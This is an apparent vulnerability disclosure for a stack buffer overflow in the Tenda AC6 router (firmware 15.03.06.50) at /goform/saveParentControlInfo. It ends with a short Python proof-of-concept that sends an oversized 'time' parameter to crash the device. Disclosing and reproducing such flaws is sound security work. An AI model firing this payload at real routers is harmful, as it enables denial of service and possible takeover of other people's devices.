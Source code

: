 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/saveParentControlInfo`. When `time`/`urls`/`deviceId` is specified with excessive data, the buffer overflow occurs during `sscanf`/`strcpy`.

![alt text](image.png)
![alt text](image-3.png)
![alt text](image-4.png)
![alt text](image-5.png)
## poc
![alt text](image-1.png)
![alt text](image-2.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'time' : payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'DOIT-' + 0x110 * b'A'

send_payload("http://10.10.10.1/goform/saveParentControlInfo", payload)
```

